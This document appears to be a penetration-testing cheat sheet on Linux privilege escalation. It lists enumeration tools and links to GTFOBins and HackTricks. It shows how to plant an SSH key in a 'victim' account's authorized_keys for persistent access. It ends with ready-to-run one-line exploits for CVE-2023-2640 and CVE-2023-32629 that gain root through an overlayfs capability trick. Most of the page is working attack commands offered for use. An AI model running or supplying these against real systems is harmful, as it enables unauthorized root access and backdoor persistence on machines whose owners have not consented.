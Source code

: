 ```yaml
---
title: Privilege Escalation
---
```


# Linux Privilege Escalation
## Enum tools
- [Lin Peas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [pspy](https://github.com/DominicBreuker/pspy)
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)

## Resources
- [gtfobins](https://gtfobins.github.io/gtfobins/ssh/)
- [hacktricks (linux)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses)
- [hacktricks (windows)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Operations
```bash
sudo -l
```

```bash
bash -p
```

### ssh private key

```bash
# victim
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

# Host
## copy key to host
chmod 600 /path/to/id_rsa_custom
ssh -i /path/to/id_rsa_custom user@target_machine_ip
```

## CVEs

### CVE-2023-2640 | CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
# Or
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```
